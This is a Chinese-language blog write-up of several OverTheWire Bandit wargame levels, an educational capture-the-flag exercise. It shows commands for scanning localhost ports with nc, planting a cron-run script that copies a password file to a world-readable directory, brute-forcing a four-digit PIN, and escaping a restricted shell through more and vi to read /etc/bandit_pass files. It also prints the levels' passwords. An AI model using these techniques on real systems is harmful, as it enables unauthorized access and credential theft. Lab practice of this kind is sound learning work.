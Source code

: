 

========================================
 OverTheWire Bandit
========================================

.. post:: 2015-07-26
   :tags: CTF
   :author: LA
   :language: zh_CN

.. hint:: 这是一篇迁移自 Jekyll 的文章，如有格式问题，可到 :ghrepo:`SilverRainZ/bullet` 反馈

题目地址: `OverTheWire: Bandit <http://overthewire.org/wargames/bandit/>`_.

考的都是些 Linux 下的基本操作, 虽然说是基本操作, 不过那些命令都没用过,
所以做了这些题依然觉得受益匪浅. 其中还有有几道题很有意思...
:del:`有意思的意思是我不会做`.

WeChall 计分板
--------------

OverTheWire 使用 Wechall 的计分板来计分,
具体参见 `WeChall Scoreborad <http://overthewire.org/about/wechall.html>`_

因为题目都在远程的 ssh 主机上, 所以你需要让远程主机知道你是谁.
在你的 `.bashrc` 里加上两个环境变量:

.. code:: bash

   export WECHALLUSER="你在 WeChall 的用户名"
   export WECHALLTOKEN="你在 WeChall 的 WarToken"

WarToken 可以在 WeChall 网站的
`Account -> WarBoxes -> Your current WarToken <http://www.wechall.net/warboxes>`_
获得.

在 `~/.ssh/config` 中添加:

.. code::

   Host *.labs.overthewire.org
   SendEnv WECHALLTOKEN
   SendEnv WECHALLUSER

在 ssh 连接的时候就会把你的帐号信息发送给远程主机.

在登入一个新的关卡后, 执行 `wechall` 便可获得该关卡的分数.

题目
----

bandit17
^^^^^^^^

   The password for the next level can be retrieved by submitting the password of the current level to a port on localhost in the range 31000 to 32000. First find out which of these ports have a server listening on them. Then find out which of those speak SSL and which don’t. There is only 1 server that will give the next credentials, the others will simply send back to you whatever you send to it.


要从 31000-32000 之间的端口中找出有开放的并且只是 SSL 连接的端口,
往该端口发送上一关的密码就会返回下一关的密码.

找出所有有应答的端口:

.. code:: bash

   nc -v -w 2 localhost 31000-32000 2>/tmp.tmpxxx/log
   cat /tmp.tmpxxx/log | grep Succ

`-v` 用来给出连接的详细信息, `-w 2` 指定 timeout,
不知道为什么 `-v` 的信息是直接输出到 `stderr` 的.
`tmp/tmp.xxx` 使用 `mktemp -d` 产生的临时目录.

最后有应答的只有五个端口, 挨个挨个试.

.. code:: bash

   openssl s_client -connect localhost:31xxx -ssl3 -quiet

发现是 31790 端口, 返回一个 RSA 私钥, 所以:

.. code:: bash

   openssl s_client -connect localhost:31790 -ssl3 -quiet > bandit17.private
   chmod 0600 bandit17.private
   ssh -i bandit17.key bandit17@bandit.labs.overthewire.org
   cat /etc/bandit_pass/bandit17

::

   key: xLYVMN9WE5zQ5vHacb0sZEVqbrp7nBTn


bandit21
^^^^^^^^


   There is a setuid binary in the homedirectory that does the following: it makes a connection to localhost on the port you specify as a commandline argument. It then reads a line of text from the connection and compares it to the password in the previous level (bandit20). If the password is correct, it will transmit the password for the next level (bandit21).

   .. note:: To beat this level, you need to login twice: once to run the setuid command, and once to start a network daemon to which the setuid will connect.

   .. note:: Try connecting to your own network daemon to see if it works as you think


`bandit20` 的家目录下提供了一个程序 `suconnect`\ , 会从你指定的端口读取 `bandit20` 的密码,
如果正确的话返回本关卡的密码.

.. code:: bash

   echo GbKksEFF4yrVs6il55v6gwY5aVje5f0j | nc -l -p 1234 & ./suconnect 1234

这里主要是 `&` 的用法, 使两个命令同时执行::

   key: gE269g2h3mw3pwgrj0Ha9Uoqen1c9DGr


bandit24
^^^^^^^^


   A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

   .. note:: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!
   .. note:: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…


这题我觉得有点意思.

cron 是一个定时执行工具, 任务可以通过命令 `crontab` 设定,
配置储存在 `/etc/cron.d` 中, 每分钟 cron 会被触发一次,
到该目录检测是否有任务要执行: `cat /etc/cron.d/cronjob_bandit24`

.. code:: bash

   * * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null

所以说 `/usr/bin/cronjob_bandit24.sh` 会每分钟执行一次, 看看这个脚本的内容是什么:

.. code:: bash

   #!/bin/bash

   myname=$(whoami)

   cd /var/spool/$myname
   echo "Executing and deleting all scripts in /var/spool/$myname:"
   for i in * .*;
   do
       if [ "$i" != "." -a "$i" != ".." ];
       then
           echo "Handling $i"
           timeout -s 9 60 "./$i"
           rm -f "./$i"
       fi
   done

每次都执行 `/var/spool/bandit24` 下的所有可执行文件, 之后删除.
当然是以 `bandit24` 的身份执行这些操作.

所以我们可以构造一个脚本让他执行.

.. code:: bash

   #!/bin/sh
   cp /etc/bandit_pass/bandit24 /tmp/tmp.xxx/psw
   chmod 666 /tmp/tmp.xxx/

这个脚本把密码文件复制到临时目录并且更改他的权限(至少让所有人可读).

中间出了很多愚蠢的错误, 比如写错目录,搞错 `sh` 的路径什么的,
另外, 不能用重定向导出 `bandit24` 的密码, 因为没有权限(为什么没有权限我就不清楚了).

脚本写完后, `chmod +x`\ , 再把它复制到 `/var/spool/bandit24` 目录下, 记得备份,
每隔一分钟该目录就会被清空.

脚本执行后, 到 `/tmp/tmp.xxx` 里就可以看到存有 key 的文件了::

   key: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ


bandit25
========

   A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinaties, called brute-forcing.


有一个守护进程在 `30002` 端口监听, 把 `bandit24` 的密码和一个四位数字组成的 pincode 传给它,
如果密码和 pincode 都正确的话会返回 `bandit25` 的密码.

所以自然是爆破了, 直接用 nc 链接该端口会提示::

   I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.


所以按照格式来, 生成 10000 个 密码 + pincode 的序列传给该端口.

.. code:: bash

   for i in {0000..9999}; do echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i" >> /tmp/pin; done
   cat /tmp/pin | nc localhost 30002 > /tmp/log
   cat /tmp/log | grep "Corr" -n1

其实答案就是最后一个端口::

   5670-Wrong! Please enter the correct pincode. Try again.
   5671:Correct!
   5672-The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG


所以::

   key: uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG


bandit26
========

   Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.


这是 26 个 level 里面最有意思的一道题的, 可惜我没能做出来...
参考的答案是这个:
`overthewire-bandit-level-26 <http://codebluedev.blogspot.com/2015/07/overthewire-bandit-level-26.html>`_

题干里说 `bandit26` 的 shell 并不是普通的 `/bin/bash`.

`bandit25` 的家目录下给出了 `bandit26` 的私钥,
登录上去只是打印出了 bandit26 的 ASCII Art 就退出了.

.. code::

     _                     _ _ _   ___   __  
    | |                   | (_) | |__ / /  
    | |__   __ _ _ __   __| |_| |_   ) / /_  
    | '_ / _` | '_ / _` | | __| / / '_ 
    | |_) | (_| | | | | (_| | | |_ / /| (_) |
    |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/

执行 `cat /etc/passwd | grep bandit26` 得到::

   *bandit26*\ :x:11026:11026:bandit level 26:/home/\ *bandit26*\ :/usr/bin/showtext


(我到这里就卡住了)

发现 `showtext` 是一个 shell 脚本, 内容如下

.. code:: bash

   #!/bin/sh

   more ~/text.txt
   exit 0

即 ssh 连上去后执行默认 shell, 用 `more` 打印出了 ~/text.txt 之后就退出了, 如图:


.. image:: /_images/overthewire-bandit26-1.png


一连上就退出, 那我们怎么让它执行我们想要的命令呢? 直接用 ssh 的 `-t` + 命令 是不行的,
这个命令不会被解释, 因为 `bash` 没有执行.

正确答案是通过 `more`.

`more` 在要输出的内容行数多于终端行数的时候会停下来, 等待你翻页,
所以我们把当前的终端调小, 差不多四行, 再次 shh 上去, `more` 就停下来了. (好脑洞)


.. image:: /_images/overthewire-bandit26-2.png


在 `more` 里面按 v, 系统会调用默认的编辑器来编辑这个文件, 默认是 `vi`\ ,
有了 `vi`\ , 就相当于有了一个终端.

在命令模式执行 `:r /etc/bandit_pass/bandit26`\ , 密码的内容就会被读入.


.. image:: /_images/overthewire-bandit26-3.png


要打开 `sh` 的话, 可以:

.. code:: vim

   :set shell sh=/bin/sh
   :sh

这样就可以执行 `wechall` 拿分了::

   key: 5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z


--------------------------------------------------------------------------------

.. isso::
